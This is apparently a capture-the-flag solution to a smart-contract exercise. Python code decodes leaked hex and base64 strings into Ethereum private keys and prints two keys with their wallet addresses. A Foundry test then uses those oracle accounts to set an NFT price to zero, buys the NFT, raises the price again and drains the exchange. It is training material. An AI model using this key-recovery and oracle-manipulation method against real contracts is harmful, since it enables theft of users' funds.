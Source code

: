 ```python
for leak in leaked_information:
    hex_str = ''.join(leak.split())
    ascii_str = hex_to_ascii(hex_str)
    decoded_str = decode_base64(ascii_str)
    private_key = decoded_str
    print("Private Key:", private_key)
    
    # Create a wallet instance from the private key
    wallet = Account.from_key(private_key)
    
    # Get the public key (address)
    address = wallet.address
    print("Wallet address:", address)

# Private Key: 0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744
# Wallet address: 0x188Ea627E3531Db590e6f1D71ED83628d1933088
# Private Key: 0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159
# Wallet address: 0xA417D473c40a4d42BAd35f147c21eEa7973539D8
```

PoC:
```solidity
// Add this test
function test_compromised() public checkSolved {

    // Set the price of the NFT to 0
    // mimic that wallet's pk is obtained and we can use it to send tx on behalf of it
    vm.startPrank(sources[0]);
    oracle.postPrice(symbols[0],0);
    vm.stopPrank();
    vm.startPrank(sources[1]);
    oracle.postPrice(symbols[0],0);
    vm.stopPrank();

    vm.prank(player);

    uint256 nftId = exchange.buyOne{value: address(player).balance}();

    // Reset the price to the original value
    vm.startPrank(sources[0]);
    oracle.postPrice(symbols[0],999 ether);
    vm.stopPrank();
    vm.startPrank(sources[1]);
    oracle.postPrice(symbols[0],999 ether);
    vm.stopPrank();

    vm.startPrank(player); 
    
    nft.approve(address(exchange), nftId); 
    exchange.sellOne(nftId);
    payable(recovery).transfer(EXCHANGE_INITIAL_ETH_BALANCE);
    
    vm.stopPrank();
}
```

---